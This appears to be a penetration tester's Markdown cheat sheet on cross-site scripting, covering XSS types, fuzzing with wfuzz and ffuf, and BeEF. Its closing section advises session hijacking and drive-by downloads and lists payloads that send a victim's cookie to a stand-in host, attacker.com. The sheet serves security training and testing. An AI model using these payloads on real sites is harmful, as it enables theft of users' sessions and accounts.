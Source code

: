 # Cross Site Scripting

## Things to remember
  *  PayloadsAllTheThings contains tons of [XSS payloads and filter bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
  *  Descriptions summarized from [OWASP XSS page](https://owasp.org/www-community/attacks/xss/)
  *  Reflected XSS coerces the victim browser to send the payload to the server
      *  The server "reflects" the payload back to the browser
      *  e.g. Specially crafted links, redirects, etc.
  *  Stored XSS involves storing the payload on the server
      *  Affects any user that visits the page containing the payload

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for XSS
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`BeEF`](https://beefproject.com/) for hooking/controlling/exploiting browsers

## Fuzzing for XSS
  *  `wfuzz` and `ffuf` for XSS fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases
  *  Plenty of XSS wordlists available in `seclists`

```
wfuzz -w /path/to/xss.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/xss?param=FUZZ'
wfuzz -w /path/to/xss.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/xss'
```

```
ffuf -request req.txt --request-proto http -w /path/to/xss.txt -v
```

## Exploiting XSS
  *  Implant `BeEF` hooks to leverage XSS into browser control
  *  Consider leveraging XSS to view web pages as another user
      *  Useful in situations where token/cookie theft is not possible/applicable
  *  Consider chaining XSS into various client-side attacks
      *  Browser exploit, harvester implant/redirect, drive-by download, etc.
  *  Consider chaining XSS into session hijack by stealing cookies/tokens
      *  PayloadsAllTheThings has a list of [payloads for cookie/token theft](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)

```
<img src="http://attacker.com/" />
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
<script>window.location.href="http://attacker.com/harvester";</script>
```
